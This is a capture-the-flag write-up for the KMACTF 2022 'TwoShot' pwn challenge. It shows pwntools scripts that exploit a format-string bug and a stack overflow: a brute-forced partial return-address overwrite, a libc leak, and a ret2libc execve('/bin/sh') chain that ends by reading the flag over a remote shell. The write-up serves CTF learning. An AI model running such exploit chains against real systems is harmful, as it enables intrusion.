









# KMACTF 2022 - TwoShot

Original challenge link: http://ctf.actvn.edu.vn/challenges

You can also download the chall in my repo: [TwoShot.zip](TwoShot.zip)

There will be 2 files in zip:

- twoshot
- libc-2.33.so

Download and use `patchelf` to patch the file, and then we can get started!

# 1. Find bug

First, we will check all the basic information of challenge:

```bash
$ file twoshot
twoshot: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=db5a8f37bd3d937233d60439e8457def482877fe, for GNU/Linux 3.2.0, not stripped

$ checksec twoshot
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

This is a 64-bit file without being stripped and `No canary found` but `PIE enabled`. Next, we will decompile the challenge with ghidra to get the flow of program. There are just a few function. The first one is main(), it read input from user and then printf() without format string --> Bug **Format String**:



Let's jump to the function readstr():



We can see that the while loop will end just when we input `\n` --> **Buffer Overflow**

# 2. Idea

For this challenge, it's a bit tricky because after printf, we don't have any other @plt so that changing @got is meaningless. So let's attach with gdb first and we can analyze the binary to see if we have anything interesting.

Set breakpoint at `ret` of main and check the stack:

```gdb
gef➤  disas main
   ...
   0x000055555555527b <+133>:	leave  
   0x000055555555527c <+134>:	ret    

gef➤  b*0x000055555555527c
Breakpoint 1 at 0x55555555527c

gef➤  c
```



Hm what's that? That's the address of main() right after `__libc_start_main_ret`. So if we can change the address of saved rip from `__libc_start_main_ret` into pop2 (means pop 2 times), we can jump back to main again. Meanwhile, we can leak the address of libc to conduct a simple ret2libc.

Summary:
- Stage 1: Jump main again & Leak libc address
- Stage 2: Conduct ret2libc

# 3. Exploit

### Stage 1: Jump main again & Leak libc address

First, let's find the gadget pop2, and the best gadget we will get is the gadget that has offset nearby offset of `__libc_start_main_ret` so that we just need to change 1 or 2 bytes:



That's the offset of `__libc_start_main_ret`. Let's find a gadget pop2 with the first hex number is 2:

```bash
$ ROPgadget --binary libc-2.33.so | grep ret | grep ": pop " | grep 0x000000000002
0x000000000002a04b : pop r12 ; pop r13 ; ret
0x000000000002a4cc : pop r13 ; pop r14 ; ret
0x0000000000028a52 : pop r14 ; pop r15 ; ret
0x0000000000028db1 : pop r15 ; pop rbp ; ret
0x000000000002a4cd : pop rbp ; pop r14 ; ret
0x00000000000266df : pop rbx ; pop rbp ; ret
0x0000000000028db2 : pop rdi ; pop rbp ; ret
0x0000000000028a53 : pop rsi ; pop r15 ; ret
```

These are pop2 which I filtered manually. The next hex number is 8 so we can filter more to have the nearly proper gadget:

```bash
$ ROPgadget --binary libc-2.33.so | grep ret | grep ": pop " | grep 0x0000000000028
0x0000000000028a52 : pop r14 ; pop r15 ; ret
0x0000000000028db1 : pop r15 ; pop rbp ; ret
0x0000000000028db2 : pop rdi ; pop rbp ; ret
0x0000000000028a53 : pop rsi ; pop r15 ; ret
```

The next hex number is 5 which cannot filter anygadget more so we will choose 1 of 4 gadgets here to use. For me, I will choose the first one with address is `0x0000000000028a52`. However, the address is dynamic so the address of `__libc_start_main_ret` will change in every run so to have a pop2, we need to choose 2 bytes fixed and bruteforce to get pop2 randomly. The first script can be as following (find the offset from input to saved rip yourself):

```python
#!/usr/bin/python3

from pwn import *

context.log_level = 'debug'
context.binary = exe = ELF('./twoshot_patched', checksec=False)
libc = ELF('./libc-2.33.so', checksec=False)

# p = process(exe.path)
p = remote('45.32.110.58', 9997)

pop2 = 0x0000000000028a52 & 0xffff

payload = b''
payload = payload.ljust(72, b'A')    # Offset from input to saved rip
payload += p16(pop2)                 # Overwrite 2 least significant byte of __libc_start_main_ret
p.sendline(payload)
```

Run several times and attach with gdb, we might jump back to main successfully. But before we test it, we will need to add some format string to leak `__libc_start_main_ret` address which is overwritten so that we can conduct ret2libc. After finding format string offset, we end up with `%17$p` is the format string offset point to `__libc_start_main_ret`. Our payload will be updated as follows:

```python
payload = b'%17$p'
payload = payload.ljust(72, b'A')
payload += p16(pop2)
p.sendline(payload)
```

Let's assume that we can do a pop2 and the address is leaked, we will use this script to get the libc base address:

```python
data = p.recvuntil(b'AAAA', drop=True)
libc_leak = int(data, 16)
libc.address = libc_leak - 0x28a52
log.info("Libc leak: " + hex(libc_leak))
log.info("Libc base: " + hex(libc.address))
```

For now we can attach with gdb to see if we can get pop2 or not. Running several times, we can see that the address of `__libc_start_main_ret` is not usually have the number `8` of offset `0x8a52` of pop2 above so we will change that number `8` to `b` because the address happen more often. So the pop2 will change 2 least significant bytes from `0x8a52` to `0xba52`:

```python
pop2 = 0x000000000002ba52 & 0xffff

payload = b''
payload = payload.ljust(72, b'A')    # Offset from input to saved rip
payload += p16(pop2)                 # Overwrite 2 least significant byte of __libc_start_main_ret
p.sendline(payload)
```

And if the 2 least significant bytes is `b565`, we will change it to `ba52` and we get pop2:





And the libc base address is correct too:





So let's move on!

### Stage 2: Conduct ret2libc

Now, we will need to find some gadget to modify register rdi, rsi and rdx from provided libc:

```bash
$ ROPgadget --binary libc-2.33.so | grep ret | grep ": pop "
...
0x0000000000028a55 : pop rdi ; ret
...
0x00000000000c7f32 : pop rdx ; ret
...
0x000000000002a4cf : pop rsi ; ret
```

And we can conduct ret2libc with the same offset as above:

```python
pop_rdi = 0x0000000000028a55 + libc.address
pop_rsi = 0x000000000002a4cf + libc.address
pop_rdx = 0x00000000000c7f32 + libc.address
payload = b'A'*72
payload += flat(
   pop_rdi, next(libc.search(b'/bin/sh')),
   pop_rsi, 0,
   pop_rdx, 0,
   libc.sym['execve']
   )
p.sendline(payload)
```

At first, I used system() but seems not work so I changed to execve to get the shell. But because in our case, we need to bruteforce so if we run script manually, it might takes time so after sending payload, we will send the command to cat the flag if we get the console and then exit the shell, then recvall() to see if we can get the flag:

```python
p.sendline(b'cat /home/ctf/flag.txt && exit')
data = p.recvall()
if b'KMA' in data:
   print(data[data.find(b'KMA'):])
   exit()
p.close()
```

And of course, put the whole script from the `p = remote(...)` to the end into a while to bruteforce automatically and we can get the flag. 

Full script: [solve.py](solve.py)

# 4. Get flag



Flag is `KMA{r3s0nab1e_bru73f0rc3_r3s0nab1e_fl4g_!!!}`